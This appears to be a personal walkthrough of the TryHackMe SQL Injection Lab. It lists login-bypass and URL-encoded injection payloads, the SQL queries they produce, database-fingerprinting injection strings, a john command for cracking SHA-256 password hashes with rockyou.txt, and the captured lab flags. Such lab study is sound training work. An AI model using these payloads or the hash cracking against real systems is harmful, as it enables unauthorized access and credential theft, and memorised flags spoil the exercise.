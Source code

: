 [TryHackMe | SQL Injection Lab](https://tryhackme.com/room/sqlilab)

# SQL Injection Lab

**Understand how SQL injection attacks work and how to exploit this vulnerability.**

```
http://10.10.218.93:5000/
```

![[Pasted image 20230704220049.png]]

http://10.10.184.158:5000/sesqli1/login?next=http%3A%2F%2F10.10.184.158%3A5000%2Fsesqli1%2Fhome

```
'1 or 1=1-- -
```

![[Pasted image 20230704220611.png]]

```
SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID='1 or 1=1-- - AND password = '47f274ce60fb8335f29cbe4437fc56108d099dfa914fad4064ec1239ada24f13'
```

```
1 or 1=1-- -
```

```
SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID=1 or 1=1-- - AND password = 'abbabb4d0029fc954aafabe7faed5d71c7997b1d28ee676cc0495da8c6efde88'
```

```
THM{dccea429d73d4a6b4f117ac64724f460}
```

![[Pasted image 20230704223143.png]]

http://10.10.184.158:5000/sesqli1/home

http://10.10.184.158:5000/sesqli2/home

```
1' or '1'='1'-- -
```

![[Pasted image 20230704223439.png]]

```
THM{356e9de6016b9ac34e02df99a5f755ba}
```

```
SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID = '1' or '1'='1'-- -' AND password = 'da45f5fec53621a955c6b72dbf48c338741a295cf9146d441c1cd650e35cbe42'
```

![[Pasted image 20230704223637.png]]

```
http://10.10.184.158:5000/sesqli3/login?profileID=-1%27%20or%201=1--%20-&password=a
```

```
SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID='-1' or 1=1-- -' AND password='ca978112ca1bbdcafac231b39a23dc4da786eff8147c4e72b9807785afee48bb'
```

```
THM{645eab5d34f81981f5705de54e8a9c36}
```

![[Pasted image 20230704224124.png]]

http://10.10.184.158:5000/sesqli4/login?next=http%3A%2F%2F10.10.184.158%3A5000%2Fsesqli4%2Fhome

```
SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID = '1' AND password = '9f86d081884c7d659a2feaa0c55ad015a3bf4f1b2b0b822cd15d6c15b0f00a08'
```
![[Pasted image 20230704224533.png]]
![[Pasted image 20230704225334.png]]

![[Pasted image 20230704225550.png]]

![[Pasted image 20230705064047.png]]

![[Pasted image 20230705064153.png]]

![[Pasted image 20230705070854.png]]

```
THM{727334fd0f0ea1b836a8d443f09dc8eb}|
```

*To identify what database is in use...*

### For MySQL and MSSQL
',nickName=@@version,email='

### For Oracle
',nickName=(SELECT banner FROM v$version),email='

### For SQLite
',nickName=sqlite_version(),email='

https://www.onlinehashcrack.com/wh86lv20ap

```
find / -type f -name rockyou.txt 2>/dev/null
/usr/share/wordlists/rockyou.txt
```

![[Pasted image 20230704222216.png]]

```
john --format=raw-sha256 --wordlist=/usr/share/wordlists/rockyou.txt sqli1.txt
```

```
http://10.10.184.158:5000/downloads/
```

![[Pasted image 20230627224134.png]]

